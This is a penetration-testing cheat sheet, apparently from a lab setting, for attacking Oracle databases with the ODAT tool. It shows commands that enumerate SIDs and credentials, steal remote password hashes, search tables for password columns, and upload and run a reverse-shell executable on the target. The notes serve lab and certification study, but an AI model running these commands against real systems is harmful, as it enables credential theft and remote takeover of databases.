

### Oracle (ODAT)

This is a suite of tools used for hacking Oracle databases.

Source:  https://github.com/quentinhardy/odat

Installed through `apt install odat`

#### Diagram of Features



### Enumeration

1. Scan everything, look for SID's and creds

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 
   ```

2. If you found any credentials, re-scan using those credentials and the SID you found them on:

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 -d SID -U myuser -P mypass --sysdba
   
   # Options
   --sysdba 	# Sudo for Oracle, elevates privileges
   ```

#### Pilfering

1. Try to steal remote passwords

   ```bash
   sudo odat stealremotepwds -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --get-all-passwords
   ```

2. To find columns in tables with password-like names:

   ```bash
   odat search -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --pwd-column-names
   ```

3. Search for specific column names:

   ```bash
   odat.py search -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --columns '%password%'
   ```

### File Transfers

Consider uploading a reverse shell and executing it, if execution is available.  If not, try uploading a webshell instead.

1. To upload files:

   ```bash
   odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ win_revtcp_8000.exe /home/coyote/htblab/oscp_like/82/win_revtcp_8000.exe
   # Yes, you have to do the whole path AND there is a space between C:/ and the filename
   ```

2. To execute a file (cannot use arguments):

   ```bash
   odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ win_revtcp_8000.exe
   # there is a space between C:/ and the filename
```
   
   